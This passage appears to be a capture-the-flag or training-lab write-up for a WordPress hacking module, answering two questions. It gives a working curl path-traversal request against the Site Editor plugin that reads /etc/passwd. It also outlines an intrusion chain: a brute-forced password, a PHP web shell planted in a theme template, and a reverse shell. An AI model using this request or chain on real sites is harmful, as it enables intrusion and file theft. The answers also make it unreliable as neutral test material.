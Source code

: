 #### Q7: System User Discovery via LFI
```bash
curl -s "http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=../../../../../../../../../../../../../../../../../etc/passwd"
```

![alt text](screenshots/Hacking_Wordpress/39.PNG)


![alt text](screenshots/Hacking_Wordpress/40.PNG)

**Answer:** `frank.mclane`

#### Q8: Full System Compromise
**Attack Chain:**
1. Password brute force: `erika:010203`
2. WordPress admin access
3. PHP web shell deployment in 404.php template
4. Reverse shell establishment
5. Flag retrieval from `/home/erika`
